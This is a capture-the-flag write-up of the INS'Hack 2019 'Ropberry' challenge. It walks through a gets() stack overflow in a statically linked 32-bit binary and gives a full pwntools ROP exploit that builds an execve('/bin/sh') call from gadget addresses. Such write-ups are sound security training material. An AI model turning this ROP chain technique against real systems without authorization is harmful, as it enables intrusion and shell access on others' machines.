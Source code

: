 

# Ropberry

INS'Hack CTF 2019


This is an easy-level Pwning problem for INS Hack 2019.

### Problem description

You hack this guy on challenge called gimme-your-shell, but he is still always asking me the same question when I try to find his secret. Maybe you can do something.

He is waiting for you at: `ssh -i <your_keyfile> -p 2226 user@ropberry.ctf.insecurity-insa.fr` To find your keyfile, look into your profile on this website.

binary


### Reconnaissance

For this one I can't run shellcode on the stack. Looks like a ROP from the title. `Checksec` shows:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ropberry
```

It's a 32-bit binary. Let's disassemble it with Ghidra:

Wow, Ghidra is slow to analyze this! No wonder, it's statically linked, so ROP will be easy.

```
void vuln(void)

{
  char local_8 [4];

  printf("> Ok, now give me the name of our president.\n");
  fflush((FILE *)0x0);
  gets(local_8);
  return;
}
```

Yep, I just need to ROP a call to `system` directly.

The problem is essentially just setting up a call to `execve('/bin/sh', NULL, NULL)`. I jumped straight to the `gets` code to put `/bin/sh` in the .bss section, then I just use some ROP gadgets to get the rest of the problem set up and then jump to an `int 0x80` instruction. Here's the flag:

![./ropberry_solved.png](./ropberry_solved.png)

And the exploit code:

```
from pwn import *
from time import sleep

DELAY = 0.1
p = process('/bin/sh')
p.send('ssh user@ropberry.ctf.insecurity-insa.fr -i ~/.ssh/id_inshack -p 2226\n')


RET_ADDR = 0x08048134
GETS_ADDR = 0x08049af0
POP_ESI_ADDR = 0x08049a83
POP_EBX_ADDR = 0x080481ec
POP_EDI_ADDR = 0x080495b1
POP_EAX_ADDR = 0x080c1906
INT_80_ADDR = 0x080493e9
POP_ECX_ADDR = 0x080e394a
POP_EDX_ADDR = 0x0805957a

p.recvuntil("president.")

payload = "A"*8 # second set of A's is saved ebp
payload += p32(POP_ESI_ADDR)
payload += p32(0x0)
payload += p32(POP_EBX_ADDR)
payload += p32(0x0)
payload += p32(POP_EDI_ADDR)
payload += p32(0x0) # saved %edi, I don't think I need any of these actually.
payload += p32(GETS_ADDR)
payload += p32(POP_EDI_ADDR) # The return address from GETS -- I want it to be POP rdi or something, anything that skips the next address.
payload += p32(0x080ed908) # bss section, read "/bin/sh" into there.

# Want edi to have pointer to "/bin/sh"
payload += p32(POP_EDX_ADDR)
payload += p32(0x0)
payload += p32(POP_ECX_ADDR)
payload += p32(0x0)
payload += p32(POP_EBX_ADDR)
payload += p32(0x080ed908)
payload += p32(POP_EAX_ADDR)
payload += p32(0xb)
payload += p32(INT_80_ADDR)

# ebx must be null, esi must be null
payload += "\n"
p.send(payload)


payload2 = "/bin/sh\x00\n"
p.send(payload2)
p.interactive()
```
